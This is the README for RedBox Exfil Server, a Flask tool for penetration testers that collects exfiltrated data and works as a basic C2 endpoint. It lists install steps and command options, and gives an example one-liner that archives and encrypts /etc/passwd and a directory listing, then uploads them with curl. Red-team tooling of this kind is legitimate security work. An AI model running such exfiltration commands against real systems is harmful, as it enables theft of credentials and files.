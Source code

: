 # RedBox Exfil Server
RedBox Exfil Server is a Python Flask Web Server for Penetration Testers, Red Teamers, and Security Professionals which features:
- [[File Upload]]
- [[Dynamic Request Parameter Logging]]
- [[Automatic Archive Extraction]]
- [[Automatic Decryption]]
- [[Automatic Decoding]]

This software is intended to be used as an a rudementary C2 endpoint for capturing web request data in various scenarios. Some examples may include:
- A blind command injection vulnerability
- An XSS attack where a quick and dynamic web request logging server is needed
- A situation where remote shell access has been obtained and a verbose-logging web-based exfiltration server is desired

**This project is still in development and some features may be buggy. If you run into problems, please open an Issue!**

### A note on security
This software should not be left generally accessible to the broader Internet. It is built with what some might consider an Arbitrary File Upload vulnerability by intention, and will accept and save files to the local disk without authorization or authentication. Due diligence should be taken to ensure that the system this software is deployed to is secured properly. A few recommendations:
- Place a Reverse Proxy to route and block traffic to this web application
- Whitelist your target's IP space
- Don't auto extract archives without understanding my filtering method

## Quick Start
### PipEnv
```bash
pip install --user pipenv
pipenv install
pipenv shell
python redbox-server.py -h
```

### Options
```bash
python redbox-server.py -h

usage: redbox-server.py [-h] [--host HOST] [--port PORT] [-c CONFIG]
                        [--dump-config] [--debug]
                        [-p {hex,openssl-aes256-pbkdf2,gzip,b64}]
                        [-A | --auto-process | --no-auto-process]
                        [--auto-extract-tar]
                        [--encryption-password PROCESSOR_ARGUMENTS.OPENSSL-AES256-PBKDF2.PASSWORD]

A Webserver for File Exfiltration and C2.

optional arguments:
  -h, --help            show this help message and exit
  --host HOST, -H HOST  The host IP Address to bind to (default: 0.0.0.0)
  --port PORT, -P PORT  The port to bind to (default: 80)
  -c CONFIG, --config CONFIG
                        YAML config file path (default: None)
  --dump-config         Dump the configuration settings as YAML (default:
                        False)
  --debug               Enable Flask's Debug Mode (default: False)
  -p {hex,openssl-aes256-pbkdf2,gzip,b64}, --processor {hex,openssl-aes256-pbkdf2,gzip,b64}
                        Specify a processor to use. This flag can be used more
                        than once to define multiple process_list functions.
                        Use this flag in the order in which you wish to
                        process received data (default: [])
  -A, --auto-process, --no-auto-process
                        Automatically run processors based on detected data.
                        This option is enabled by default, but should be
                        disabled (--no-auto-process) when you receive output
                        you don't expect. Such as in the case of Base64
                        decoding being run on output that is not Base64
                        encoded. Instead, force the process with the `-p`
                        flag. (default: True)
  --auto-extract-tar, -x
                        Auto extract TAR archives received by the server.
                        (default: False)
  --encryption-password PROCESSOR_ARGUMENTS.OPENSSL-AES256-PBKDF2.PASSWORD
                        The password used to decrypt/encrypt. (default:
                        EncryptMe)

Far more configuration options exist which must be specified in Environment
Variables, use `--dump_config` to see all of the options

```

### Examples
#### Exfiltrating a Tar archive and command output from a Linux system
```bash
tar -cz /etc/passwd \
| openssl enc -a -e -aes-256-cbc -pbkdf2 -pass 'pass:EncryptMe' \
| curl 127.0.0.1$PWD -F "dir_listing=`ls -al | openssl enc -a -e -aes-256-cbc -pbkdf2 -pass 'pass:EncryptMe'`" -F "upload=@-" 
```

![example-screenshot.png](docs/example-screenshot.png)

## Todo
- [ ] Greater documentation of techniques using this web server
- [ ] Chunked File Upload handling and example commands
- [ ] More Processing modules
- [ ] Expand archive extraction functionality